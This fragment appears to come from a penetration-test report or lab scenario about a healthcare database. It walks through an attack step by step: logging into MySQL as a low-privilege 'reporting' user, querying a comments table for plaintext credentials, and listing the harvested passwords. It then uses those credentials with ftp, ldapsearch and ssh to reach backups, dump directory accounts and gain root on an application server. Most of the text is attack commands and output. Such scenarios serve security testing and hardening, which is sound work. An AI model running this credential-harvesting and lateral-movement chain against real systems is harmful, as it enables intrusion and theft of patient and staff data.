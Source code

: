 
### Scenario 4: Comments Table → Lateral Movement

**Attack Steps:**

1. **Initial Access** (any low-priv user):
```sql
-- Even the 'reporting' user can read comments:
mysql -h target-host -u reporting -preports healthcare_db
```

2. **Query Comments Table:**
```sql
SELECT id, comment_text, plaintext_credential 
FROM comments 
WHERE plaintext_credential IS NOT NULL;
```

3. **Harvest Credentials:**
```
Results:
- db_admin_password: MedC@re2024
- backup_server: ftpadmin / FtpB@ckup123
- ldap_service: cn=admin,dc=medcare,dc=local / LdapAdm1n!
- vpn_username: remote_access / Vpn@ccess2024
- ehr_app_root: ehrroot / Ehr@pp2024!
```

4. **Lateral Movement:**

**Access FTP Server:**
```bash
ftp target-host
Username: ftpadmin
Password: FtpB@ckup123
# Access to medical records backups
```

**Access LDAP:**
```bash
ldapsearch -x -H ldap://target-host:389 \
  -D "cn=admin,dc=medcare,dc=local" \
  -w "LdapAdm1n!" \
  -b "dc=medcare,dc=local"
# Extract all user accounts
```

**Access VPN:**
```
VPN Client: remote_access / Vpn@ccess2024
# Internal network access
```

**Access Application Server:**
```bash
ssh ehrroot@ehr-webapp-server
Password: Ehr@pp2024!
# Root access to application server
```
